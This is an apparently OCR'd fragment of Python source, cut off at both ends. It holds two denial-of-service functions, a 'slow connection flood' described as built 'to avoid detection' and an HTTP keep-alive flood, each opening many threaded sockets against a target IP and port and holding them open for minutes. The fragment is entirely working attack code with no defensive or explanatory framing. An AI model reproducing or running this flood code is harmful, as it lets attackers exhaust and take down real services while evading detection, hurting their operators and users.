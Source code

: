 ```python
        sock.close()

def slow_connection_flood(target_ip, target_port, num_connections, delay_range=(1, 10)):
    """Slow connection flood to avoid detection"""
    def create_connection(conn_id):
        delay = random.uniform(*delay_range)
        time.sleep(delay)
        
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            print(f"Slow connection {conn_id} established after {delay:.2f}s")
            # Keep connection alive for extended period
            time.sleep(300)  # 5 minutes
            sock.close()
        except Exception as e:
            print(f"Slow connection {conn_id} failed: {e}")
    
    threads = []
    for i in range(num_connections):
        thread = threading.Thread(target=create_connection, args=(i,))
        thread.daemon = True
        thread.start()
        threads.append(thread)
    
    # Wait for all threads
    for thread in threads:
        thread.join()

def http_keepalive_flood(target_ip, target_port, num_connections):
    """HTTP Keep-Alive connection flood"""
    def create_http_connection(conn_id):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            
            # Send HTTP request with keep-alive
            request = (
                "GET / HTTP/1.1\r\n"
                f"Host: {target_ip}\r\n"
                "Connection: keep-alive\r\n"
                "Keep-Alive: timeout=600, max=1000\r\n"
                "\r\n"
            )
            
            sock.send(request.encode())
            
            # Read response to maintain connection
            response = sock.recv(1024)
            print(f"HTTP connection {conn_id} established and maintained")
            
            # Keep connection alive
            time.sleep(600)  # 10 minutes
            sock.close()
            
        except Exception as e:
            print(f"HTTP connection {conn_id} failed: {e}")
    
    threads = []
    for i in range(num_connections):
        thread = threading.Thread(target=create_http_connection, args=(i,))
        thread.daemon = True
        thread.start()
```